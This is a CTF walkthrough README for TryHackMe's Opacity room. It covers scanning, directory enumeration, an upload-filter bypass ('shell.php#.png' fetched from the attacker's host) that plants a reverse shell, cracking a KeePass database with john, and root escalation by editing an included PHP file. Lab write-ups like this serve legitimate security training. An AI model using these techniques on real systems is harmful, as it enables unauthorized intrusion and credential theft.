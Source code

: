 # Opacity CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Opacity** CTF challenge on [TryHackMe](https://tryhackme.com/room/opacity). 
---


we know about 3 open ports: 22, 80, 139

![scn](imgs/scn.png "scn")

using feroxbuster to find hidden folders

![ferox](imgs/ferox.png "ferox")

we found `/cloud/` where we have ability to upload images

![up](imgs/up.png "up")

we can upload image using

```
http://10.14.91.59:8081/some.jpeg
```

maybe we could smuggle reverse shell via file upload

![trick](imgs/trick.png "trick")

i used this payload to upload the shell

```
http://10.14.91.59:8081/shell.php#.png
```

this is our file localization `http://10.10.239.96/cloud/images/shell.php#.png`

![loc](imgs/loc.png "loc")

it worked we have shell as www-data

![www](imgs/www.png "www")

linpeas found some keepass databse

![lin](imgs/lin.png "lin")

we can use keepass2john to create hash 

```
$ /usr/sbin/keepass2john dataset.kdbx > crack.txt
$ john crack.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

we cracked the password for the keepass databse

![john](imgs/john.png "john")

we now can use KeePass2 to open the database, provide master password, copy the sysadmin user password 

now we can ssh as sysadmin and we have user flag

![user](imgs/user.png "user")

we can now finally look into scripts folder

script.php file contains

![script](imgs/script.png "script")

we see that the file requires `lib/backup.inc.php`

we can modify the `backup.inc.php` file so it contains a reverse shell

now we got hit with shell as root 

we got root shell and root flag

![root](imgs/root.png "root")

# MACHINE PWNED
